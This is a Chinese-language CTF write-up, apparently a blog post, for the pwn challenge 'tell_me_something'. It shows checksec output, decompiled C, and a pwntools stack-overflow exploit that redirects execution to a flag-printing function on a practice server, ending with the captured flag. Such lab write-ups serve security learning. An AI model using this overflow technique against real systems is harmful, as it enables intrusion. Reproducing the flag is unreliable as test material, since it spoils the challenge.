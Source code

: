 ```yaml
---
title: jarvisoj_tell_me_something
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec，看结果

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec guestbook
[*] '/home/ela/Pwn/guestbook'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

然后随便运行一下，也没啥

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ./guestbook
Input your message:
aaaa-%p-%p-%p-%p-%p-%p
I have received your message, Thank you!
```

看一看 IDA 64 怎么说

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h] BYREF

  write(1, "Input your message:\n", 0x14uLL);
  read(0, &v4, 0x100uLL);
  return write(1, "I have received your message, Thank you!\n", 0x29uLL);
}
```

溢出点在 `read()` 上，然后找了找，发现有个函数叫 `good_game()`，如下

```c
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf[9]; // [rsp+Fh] [rbp-9h] BYREF

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf[0] = result;
    if ( (_BYTE)result == 0xFF )
      break;
    write(1, buf, 1uLL);
  }
  return result;
}
```

看上去很简单，只要我溢出到 `good_game()` 上就能获取 `flag`，地址是 `0x400620`

于是可以构建 Exp

```python
from pwn import *

p64 = lambda x: pack(x, 64)

io = remote("node4.buuoj.cn", 28354)

backdoor = 0x400620
payload = b"A" * (0x88+0x8) + p64(backdoor)

io.sendline(payload)
io.interactive()

```

结果很尴尬，运行不来，看一下主函数的汇编代码

![](https://z1.ax1x.com/2023/10/31/pinAgQH.png)

发现问题所在了，主函数开始的时候压根没有 `push ebp`，所以那个 `+0x8` 是不必要的

平常我们的主函数应该长这样

![](https://z1.ax1x.com/2023/10/31/pinEFX9.png)

所以修改 Exp，就搞定了

## 编写 Exp

```python
from pwn import *

p64 = lambda x: pack(x, 64)

io = remote("node4.buuoj.cn", 28354)

backdoor = 0x400620
payload = b"A" * 0x88 + p64(backdoor)

io.sendline(payload)
io.interactive()

```

最后获得 Flag 为 `flag{b99c254e-2950-4b4b-bdab-790d14867f45}`